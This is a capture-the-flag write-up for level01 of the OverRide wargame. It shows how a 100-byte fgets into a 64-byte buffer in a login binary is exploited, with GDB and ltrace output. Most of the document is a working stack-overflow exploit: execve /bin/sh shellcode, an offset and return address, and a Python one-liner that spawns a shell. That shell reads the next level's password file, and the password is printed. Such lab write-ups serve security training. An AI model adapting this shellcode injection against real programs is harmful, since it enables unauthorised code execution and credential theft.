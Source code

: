 # Level 01

Once logged in, you will see a binary.

```
$ ssh localhost -p 4242 -l level01
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on localhost:4242
level01@localhost's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
level01@OverRide:~$ ls
level01
level01@OverRide:~$
```

Let's run the program.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: admin
verifying username....

nope, incorrect username...

level01@OverRide:~$
```

We don't know how the program works, so let's take a look at the binary.

```
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.

gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
[...]
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
[...]
gdb-peda$ info variables
[...]
0x0804a040  a_user_name
```

We see there are functions, and global variable declared. By decompiling the source, we at least have an idea what the username and password are: `"dat_wil"` and `"admin"`. Even with the "correct" username and password, we still haven't captured the flag.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...

level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
aaaaaaaaaaaaaaaa
nope, incorrect password...

level01@OverRide:~$
```

Checking the source again, it appears that the second call to `fgets` reads in more bytes (`0x64` = 100) than the buffer's declared size (`0x40` = 64).

Let's try a [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to see if we can overwrite the `EIP` register for when it returns from `fgets`. This would allow us to insert a [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php) into memory through user input and then return to it by modifying the `EIP` register with input as well.

This is the PETA GDB output after inputting the username `"dat_wil"` and a 200-character buffer overflow pattern (see link above). Note the `EIP` register that has been overwritten by `0x37634136` (`"6Ac7"` as a string)

Inputs:
```
dat_wil
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
                                                                                ^ 81 characters in (therefore an offset of 80)
```

PETA GDB output:
```
[----------------------------------registers-----------------------------------]
EAX: 0x1
EBX: 0x33634132 ('2Ac3')
ECX: 0xffffffff
EDX: 0xf7fd08b8 --> 0x0
ESI: 0x0
EDI: 0x41346341 ('Ac4A')
EBP: 0x63413563 ('c5Ac')
ESP: 0xffffd720 ("Ac8Ac9Ad0Ad1Ad2")
EIP: 0x37634136 ('6Ac7')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x37634136
[------------------------------------stack-------------------------------------]
0000| 0xffffd720 ("Ac8Ac9Ad0Ad1Ad2")
0004| 0xffffd724 ("c9Ad0Ad1Ad2")
0008| 0xffffd728 ("0Ad1Ad2")
0012| 0xffffd72c --> 0x326441 ('Ad2')
0016| 0xffffd730 --> 0x0
0020| 0xffffd734 --> 0xffffd71c ("6Ac7Ac8Ac9Ad0Ad1Ad2")
0024| 0xffffd738 --> 0xffffd7bc --> 0xffffd8f5 ("TERM=xterm-256color")
0028| 0xffffd73c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x37634136 in ?? ()
gdb-peda$ stack
0000| 0xffffd720 ("Ac8Ac9Ad0Ad1Ad2")
0004| 0xffffd724 ("c9Ad0Ad1Ad2")
0008| 0xffffd728 ("0Ad1Ad2")
0012| 0xffffd72c --> 0x326441 ('Ad2')
0016| 0xffffd730 --> 0x0
0020| 0xffffd734 --> 0xffffd71c ("6Ac7Ac8Ac9Ad0Ad1Ad2")
0024| 0xffffd738 --> 0xffffd7bc --> 0xffffd8f5 ("TERM=xterm-256color")
0028| 0xffffd73c --> 0x0

```

The last thing we need to create the exploit input is the address where our shellcode will start. We find this by looking at where `fgets` stores the input during its second call (`0xffffd6ec`). (Note: in testing, we've found that this address can change if you run the command on different machines. If this address doesn't work, you can recalculate it with the following `ltrace` function)

```
level01@OverRide:~$ ltrace ./level01 2> /tmp/ltrace.txt   # NOTE: sending ltrace output to a temp file
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...

level01@OverRide:~$ cat /tmp/ltrace.txt
__libc_start_main(0x80484d0, 1, -10284, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...)                     = 39
printf("Enter Username: ")                                      = 16
fgets("dat_wil\n", 256, 0xf7fcfac0)                             = 0x0804a040
puts("verifying username....\n")                                = 24
puts("Enter Password: ")                                        = 17
fgets("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"..., 100, 0xf7fcfac0)   = 0xffffd6ec
puts("nope, incorrect password...\n")                           = 29
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Here's the steps we used to get to our final exploit.

First step:

```
dat_wil    # the username that we found by disassembling verify_user_name()
[  shellcode  ] + [  padding up to 80 chars  ] + [  address  ]
```

Next step:

```
dat_wil
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B" * [  offset (80) - length of first (28) - 52  ] + [  `0xffffd6ec` in the correct endian-ness  ]
```

And now in Python:
```
python -c 'import struct; print "dat_wil\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + struct.pack("I", 0xffffd6ec)'
```

And now as a command:

```
(python -c 'import struct; print "dat_wil\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + struct.pack("I", 0xffffd6ec)' ; cat -) | ./level01
```

And now in action:
```
level01@OverRide:~$ (python -c 'import struct; print "dat_wil\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + struct.pack("I", 0xffffd6ec)' ; cat -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
